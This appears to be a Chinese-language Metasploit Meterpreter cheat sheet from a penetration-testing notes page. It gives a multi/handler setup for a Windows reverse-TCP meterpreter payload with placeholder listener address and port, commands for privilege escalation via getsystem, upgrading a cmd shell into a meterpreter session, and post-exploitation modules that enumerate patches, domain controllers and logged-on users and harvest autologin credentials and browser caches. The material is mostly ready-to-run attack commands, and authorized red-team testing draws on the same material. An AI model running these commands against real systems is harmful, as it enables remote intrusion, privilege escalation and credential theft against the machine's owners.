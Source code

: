 
## meterpreter
### 快速上手
```bash
shell       # 获取目标主机的 cmd shell
getsystem   # 命令可以提权到本地系统权限
sysinfo     # 显示系统名,操作系统,架构和语言等.
```

### 获取会话
**handler**
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost <lhost>
set lport <lport>
exploit -j  # 后台执行
```

**cmdshell 升级为 meterpreter**

如果最开始获取的是 cmdshell,后来发现这台机器非常适合作为测试其它终端的跳板,这个时候 cmdshell 的功能已经不能满足需要,升级成 meterpreter 就十分有必要.`sessions -u "id"` 将该 cmdshell 升级成 meterpreter

**注意事项**

如果 meterpreter session 创建成功了,但很快就断连,此时应该修改使用的 payload,优先改成 generic/shell_reverse_tcp 等

如果还不成功,切换回连端口或者改成 bind shell 试试

### 信息收集

**环境检测**
```bash
run post/windows/gather/checkvm                         # 是否虚拟机
run post/linux/gather/checkvm                           # 是否虚拟机

getuid                                                  # 查看当前用户

run post/windows/gather/enum_applications               # 获取目标主机安装软件信息;
run post/windows/gather/enum_patches                    # 查看目标主机的补丁信息;
run post/windows/gather/enum_domain                     # 查找目标主机域控.
run post/windows/gather/enum_logged_on_users            # 列举当前登陆过主机的用户;
run post/windows/gather/credentials/windows_autologin   # 抓取自动登陆的用户名和密码;

run post/windows/gather/forensics/enum_drives           # 查看分区
run post/windows/gather/enum_applications               # 获取安装软件信息
run post/windows/gather/dumplinks                       # 获取最近的文件操作
run post/windows/gather/enum_ie                         # 获取 IE 缓存
run post/windows/gather/enum_chrome                     # 获取 Chrome 缓存
run post/windows/gather/enum_patches                    # 补丁信息
run post/windows/gather/enum_domain                     # 查找域控
```
